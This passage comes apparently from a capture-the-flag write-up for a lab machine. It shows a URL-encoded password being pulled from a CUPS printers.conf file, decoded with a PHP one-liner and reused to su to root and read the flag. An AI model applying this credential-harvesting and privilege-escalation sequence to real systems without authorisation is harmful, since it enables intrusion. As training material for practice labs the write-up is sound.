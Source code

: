 The `.cache/conf.d/printers.conf` file contains credentials:

```
[...]
MakeModel KONICA MINOLTA C554SeriesPS(P)
DeviceURI https://srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb/printer
State Idle
[...]
```

We can URL decode many ways, such as using PHP:

```
srvadm@quick:~$ php -r 'echo urldecode("srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb\n");'
srvadm@quick.htb:&ftQ4K3SGde8?@printerv3.quick.htb
```

The password `&ftQ4K3SGde8?` is the root password. We can use su and get root access.

```
srvadm@quick:~$ su
Password: 
root@quick:/home/srvadm# id
uid=0(root) gid=0(root) groups=0(root)
root@quick:/home/srvadm# cat /root/root.txt
ca70f7b71[...]
```
